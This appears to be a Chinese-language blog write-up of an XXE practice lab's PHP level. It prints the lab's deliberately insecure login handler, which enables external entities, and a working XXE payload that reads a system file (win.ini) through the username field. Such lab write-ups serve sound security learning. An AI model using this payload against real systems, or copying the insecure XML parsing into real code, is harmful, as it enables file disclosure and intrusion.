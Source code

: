 ```yaml
---
layout:    post
title:     xxe-lab
subtitle:  学习学习
date:      2021-03-28
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - xxe
---
```


### xxe-lab

#### php_xxe

[![cCfKRP.md.png](https://z3.ax1x.com/2021/03/29/cCfKRP.md.png)](https://imgtu.com/i/cCfKRP)

进入php_xxe靶场，可以看到登录框，先随便尝试登录一下：

失败，抓包看看：
[![cChTXT.png](https://z3.ax1x.com/2021/03/29/cChTXT.png)](https://imgtu.com/i/cChTXT)

可以看到这是POST方式传递的数据，且POST内容看上去很像XML格式。查看源代码：

```
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');//这里没有xml文档所以用的php为协议来获取我们发送的xml文档

try{
	$dom = new DOMDocument();//创建XML对象
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//将我们发送的字符串生成xml文档
	$creds = simplexml_import_dom($dom);//实例化xml文档

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);//必须要有username这个标签，不然找不到username就没有输出了，我们也就不能通过回显来获取信息
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);//同上
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

知道了后台文件构造，我们可以开始构造payload在username中输出了：

```
<?xml version="1.0"?>
<!DOCTYPE user [
<!ENTITY xxe SYSTEM "file:///C:/windows/win.ini">
]>
<user><username>&xxe;</username><password>abc</password></user>
```

这里我们构造的payload强制xml解析器去访问系统配置文件。

输出内容：

[![cCTniQ.md.png](https://z3.ax1x.com/2021/03/29/cCTniQ.md.png)](https://imgtu.com/i/cCTniQ)

